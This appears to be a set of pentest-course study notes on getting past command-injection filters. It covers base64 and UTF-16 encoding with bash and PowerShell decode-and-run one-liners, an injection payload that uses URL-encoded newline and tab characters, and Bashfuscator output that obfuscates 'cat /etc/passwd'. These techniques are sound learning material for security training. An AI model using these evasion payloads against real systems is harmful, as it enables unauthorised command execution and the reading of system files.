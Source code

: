 Tools for encoding:
- base64
- xxd
`echo -n 'cat /etc/passwd | grep 33' | base64`
And create command for decode the string in sub-shell($()).
`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

As we can see the above command executes the command perfectly, we did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

> [!TIP]
> Note that we are using <<< to avoid using a pipe |, which is a filtered characters.

Even if some commands were filtered, like bash or base64, we could bypass that filter with the techniques we discussed in the previus section or use other alternative like sh for command
executation and opessl for b64 decoding or xdd for hex decoding.

WIn:`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
We may also achive the same thing on LINUX, but we wouild have to convert the string form utf-8 to utf-16 before we base64.
`echo -n whoami | iconv -f utf-8 -t utf-16le | base64
dwBoAG8AYQBtAGkA`
We can decode the b64 string and execute it with PS sub-shell [iex"$()"]:
` iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

Exercise:
Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
First terminal encode:
```sh
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1"| base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
# After that we can enter in the section with
127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
# Get the directory
/usr/share/mysql/debian_create_root_user.sql
```

# Evasion tools:
If we are daling with advanced security tool, we may not able to use basic manual obfuscation tech. Ti may be the best to resort to automated obfuscation tools.

- Linux BAshfuscator:
A handy tool we can utilize for obfuscation bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).
Once we install the bashfuscator with yay -S bashfuscator-git, we can try to use like this command:
`bashfuscator -c 'cat /etc/passwd'`
Running the tool pick an obfuscation technique, which can output a command length ranging form a few hundred characters to over a million characters.
We can use some flags the help menu to produce a shorter and simpler obfuscation command:
```sh
bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
[+] Mutators used: Token/ForCode
[+] Payload:

${!#} <<< "$(Zv=(a \  w c t \/ d e p s);for xy in 3 0 4 1 5 7 4 3 5 8 0 9 9 2 6;{ printf %s "${Zv[$xy]}";};)"

[+] Payload size: 109 characters

# Then we can outputted command with bash -c to see whether if does execute
bash -c ...
```
